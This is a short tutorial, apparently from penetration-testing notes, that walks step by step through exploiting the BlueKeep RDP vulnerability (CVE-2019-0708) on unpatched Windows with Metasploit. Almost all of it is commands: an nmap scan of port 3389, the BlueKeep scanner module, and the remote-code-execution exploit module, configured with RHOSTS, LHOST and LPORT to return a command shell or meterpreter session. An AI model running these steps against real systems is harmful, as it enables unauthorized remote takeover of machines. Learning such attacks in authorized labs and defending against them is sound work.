 The BlueKeep exploit includes an MSF auxiliary module to check if a system is vulnerable and an exploit module to target unpatched systems. However, the exploit requires adjustments based on the Windows version and the memory chunk size needed to execute the code. When successful, the exploit provides a standard command shell or a meterpreter session on the target.

1. Perform a port scan to confirm if RDP is running on the target:
```
nmap -p 3389 target
```
2. Run the metasploit auxiliary module to confirm if the version of RDP is vulnerable. Start metasploit with `msfconsole`, and then search '`Bluekeep`':
```
search Bluekeep
```
The results will have the auxiliary module `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` and the exploit, the exploit will also run the aux scanner module. 
```
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
### or "use 0/1" ##
```
Make any configuration changes for the scanner
- `RHOSTS` = The target host
- `RPORT` = Change if RDP is running on a different port from its default
```
set RHOSTS 10.69.65.2
```
Type `run`  to start the scan
```
run
```

Run the exploit:

We can select the exploit `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` 
```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
### or "use 0/1" ##
```

Configure the module options:
- `RHOSTS` = The target host
- `RPORT` = Change if RDP is running on a different port from its default
```
set RHOSTS 10.69.65.2
```

Configure the payload options 
- `LHOST` (Listening Host) = Your local machine
- `LPORT`(Listening Port) = The port on your system to listen

Just type `exploit`  to run the exploit
```
exploit
```

Might get a `bad-config` response if you don't specify a target, the module gives the ability to specify the target configuration or version of Windows to target

